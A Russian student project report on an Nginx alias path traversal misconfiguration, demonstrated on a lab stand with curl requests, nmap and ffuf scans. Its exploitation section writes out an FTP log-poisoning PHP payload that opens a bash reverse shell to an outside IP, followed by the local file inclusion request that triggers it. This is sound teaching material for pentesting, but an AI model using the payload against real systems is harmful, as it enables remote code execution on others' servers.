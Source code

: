 ###<p align=center> ОАНО ДПО "ВЫШТЕХ"</p>

<br>
<br>
<br>
<br>
<br>
<br>
<br>





###<p align=center>                                       Пояснительная записка к проекту </p> 
##<p align=center>                          Демонстрация уязвимости path traversal на сервере Nginx </p> 

<br>
<br>
<br>
<br>
<br>
<br>
<br>
<p align=right>Выполнил: Плясовских Д. В.</p>

<p align=right>Проверил: Кондратьев А.</p>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<p align=center> г. Москва <br>
2022</p>
<br>
<br>
<br>
<br>
<br>
<br>

###<p align=center> 1. Что такое  path traversal?

Уязвимость, которая появляется при неправильной конфигурации алиасов.
Nginx alias — это некий псевдоним, который может скрыть настоящее местоположение объекта. Он определяется
в директиве `location`. В нашем случае конфигурация установит замену `/cat/ на /base/catalog/`

```yaml 
server {
  listen 80;
  location /cat/ {   

   	alias /var/www/mywebsite/base/catalog/; 
    	access_log off;

  }
}
```

Во время обращения к `/cat/test.png` веб-сервер вернет файл `/base/catalog/test.png`
Уязвимость проявляется при неправильном указании `location`, как в этом конфиге:

```yaml 
server {
  listen 80;
  location /cat {   

    alias /base/catalog/;
    access_log off;

  }
}
```
В данном случае, если обратиться к `/cat../test.png`, сервер вместо того, чтобы вернуть файл `/base/catalog/test.png`,
выполнит прямую замену алиаса и попытается вернуть `/base/test.png`, тем самым обходя директорию  `catalog`.


###<p align=center>2. Структура стенда.

Стенд собран на ВМ VirtualBox и содержит 3 nginx-сервера: <br> 
Nginx-1 — балансировщик нагрузки, работающий в режиме round-robin, который отправляет запросы по очереди на сервера
nginx-2 и  nginx-3. <br>
nginx-2 и  nginx-3 — одинаковые сервера, на которых располагается содержимое сайта. Между собой они отличаются лишь
одним знаком в конфигурационном файле сервера.

###<p align=center>3. Демонстрация.

Сделаем запрос `curl 127.0.0.1:8081/cat/image.html` дважды.
Мы видим, что ответ сервера одинаков, за исключением того, что указывается с какого именно сервера пришел 
ответ - nginx-2 или  nginx-3.

Изменим наш запрос на `curl 127.0.0.1:8081/cat../flag.html`
Сейчас на запрос приходит разный ответ, от разных серверов. Nginx-2 — ошибка 404 (не найдена страница) и ее
действительно не существует по этому пути, а  nginx-3 возвращает страницу с флагом. Этот же результат (получение флага),
но для обоих серверов можно получить, если мы знаем путь, который скрыт за алиасом — `/base/flag.html`
Проверим это, введя запрос `curl 127.0.0.1:8081/base/flag.html`
Таким образом, используя путь `/cat../` мы обходим директорию `catalog` попадая сразу в директорию `base`, которая
находится на уровень выше.

###<p align=center>4. Эксплуатация уязвимости.

Выходит, если мы знаем путь до флага, а в реальности - до какого либо важного объекта тестируемой системы, то мы можем
без особых усилий попасть в эту директорию. При условии, что в конфигурации допущена уязвимость path traversal.
Здесь перед атакующим встают два вопроса — как найти эту уязвимость и как с помощью найденной уязвимости, найти
важные файлы не зная структуры сайта.<br>
Но обо всем по порядку. Для начала, выключим  nginx-2 и оставим только одну машину с уязвимостью.
Первым делом просканируем порты. Это стандартная процедура при любом пентесте.
Один из популярных сканеров портов — nmap. Давайте просканируем порты выполнив 
```bash
nmap 127.0.0.1
```
В результате мы видим что используются в том числе порты 8081 (web) и 2103 (ftp).
В реальном мире это должны быть 80 и 21 порты. Это определяет плоскость атаки на сервер.
И да, если сталкиваетесь с nginx, то первым делом надо искать уязвимость обхода путей.
Для этого, мы сканируем адрес `/cat../ `методом пербора типовых директорий, используемых в сайтостроении. Используем
сканнер FFUF с подключением необходимых словарей. Здесь вместо FUZZ подключается путь из используемого словаря.
```bash
./ffuf -u http://127.0.0.1:8081/cat../FUZZ -w /somyourpath/SecLists/Fuzzing/sec-path.txt -t 2
```

Надо отметить, что пентестинг вещь непредсказуемая, в том смысле, что развитие атаки зависит от того что мы найдем  при
каждом сканировании и знаем ли мы как использовать то, что мы нашли. Один из сценариев использования этой уязвимости
следующий:

1. Найден файл vsftpd.log куда можно сделать запись о попытке подключения по ftp
2. Найдены страницы сайта с php которые используют в качестве параметра, другие файлы php. 
Например: `/base/view.php?page=user.php` (используем Burp History)
3. Делается попытка подключения по ftp, в качестве логина используем
```bash
<!--?php exec("/bin/bash -c 'bash -i > /dev/tcp/178.10.10.1/443 0>&1'"); ?-->
```
тем самым записываем этот код в файл лога  vsftpd.log
4. На атакующей машине запускается программа-слушатель (например netcat), которая примет соединение от машины жертвы,
после того как код из предыдущего пункта будет запущен.
5. Выполняем запрос `curl 127.0.0.1:8081/cat../view.php?page=../log/vsftpd.log` где из файла лога считывается
и исполняется наш код. <br>
Все, RCE реализовано.



###<p align=center>5. Заключение.
Как можно было увидеть, отсутствие всего лишь одного знака,  может привести к взлому. Метод борьбы с этой уязвимостью
достаточно прост — обязательное использование линтера в работе специалиста по безопасности. Поскольку  от человеческого
фактора не защитит никто.

###<p align=center>6. Источники.

1. https://github.com/bykvaadm/OS/tree/master/devops/ansible/lab7 — прообраз стенда.
2. https://spy-soft.net/hack-nginx/ - оригинальный текст с разбором уязвимости.